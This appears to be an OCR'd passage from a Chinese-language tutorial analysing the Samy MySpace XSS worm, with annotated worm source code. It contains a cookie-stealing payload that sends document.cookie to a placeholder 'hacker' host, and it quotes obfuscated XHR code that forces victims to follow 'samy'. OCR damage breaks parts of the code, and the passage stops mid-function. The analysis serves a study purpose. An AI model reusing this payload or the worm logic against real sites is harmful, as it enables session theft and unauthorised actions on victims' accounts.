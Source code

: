 ```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
                Z = new ActiveXOb - ject('Msxml2.XMLHTTP')  // 混淆
            } catch (e) { 
                try {
                    Z = new ActiveXOb - ject('Microsoft.XMLHTTP')
                } catch (e) {
                    Z = false
                }
            }
        }
        return Z
    }

* * *

    function httpSend(BH, BI, BJ, BK) {
        if (!J) {       // 这里的J是前面返回的 XHR 实例。
            return false
        }
        eval('J.onr' + 'eadystatechange = BI');     // 这里对核心操作进行混淆
        J.open(BJ, BH, true);   // 这里打开一个 XHR 请求 （方式，链接）
        if (BJ == 'POST') {
            J.setRequestHeader('Content - Type', 'application / x - www - form - urlencoded');
            J.setRequestHeader('Content - Length', BK.length)
        }
        J.send(BK); return true
    }

这里，使用了**eval对其状态回调进行了赋值。** 即在其完成后执行

    function getHome() {
        if (J.readyState != 4) {
            return
        }
        var AU = J.responseText;
        AG = findIn(AU, 'P' + 'rofileHeroes', ' < /td>');
        AG = AG.substring(61, AG.length);
        if (AG.indexOf('samy') == -1) {     // 这里判断当前用户是否是否关注了 samy
            if (AF) {
                AG += AF;
                var AR = getFromURL(AU, 'Mytoken');
                var AS = new Ar - ray();
                AS['interestLabel'] = 'heroes';
                AS['submit'] = 'Preview';
                AS['interest'] = AG;
                J = getXMLObj();
                httpSend('/index.cfm ? fuseaction = profile.previewInterests & Mytoken = ' + AR, postHero, 'POST', paramsToString(AS))  
                // 这里是核心部分提交对 samy 关注的请求
            }
        }
    }

上面的函数在http请求返回时候进行回调，实现添加 samy 关注的功能。

* * *

第二个，请求函数：

    function httpSend2(BH, BI, BJ, BK) {
        if (!xmlhttp2) {
            return false
        }
        eval('xmlhttp2.onr' + 'eadystatechange = BI');
```